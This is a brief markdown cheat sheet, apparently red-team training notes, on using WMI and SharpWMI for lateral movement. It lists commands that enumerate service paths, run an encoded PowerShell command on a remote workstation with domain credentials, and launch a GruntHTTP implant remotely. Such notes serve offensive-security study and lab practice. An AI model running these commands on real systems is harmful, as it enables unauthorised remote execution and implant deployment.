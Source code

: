- Get all service paths
	- `wmic service get name, pathname`
- Execute command on local or remote host
	- `wmic /node:"wkstn-4945" /user:"cyberbotic.io\\n.lamb" /password:"REDACTED" process call create "powershell -enc \[...snip...\]"`
- SharpWMI
	- `SharpWMI /command:"action=exec computername=wkstn-4945 command=\\"C:\\Windows\\Temp\\GruntHTTP.exe\\""`
- 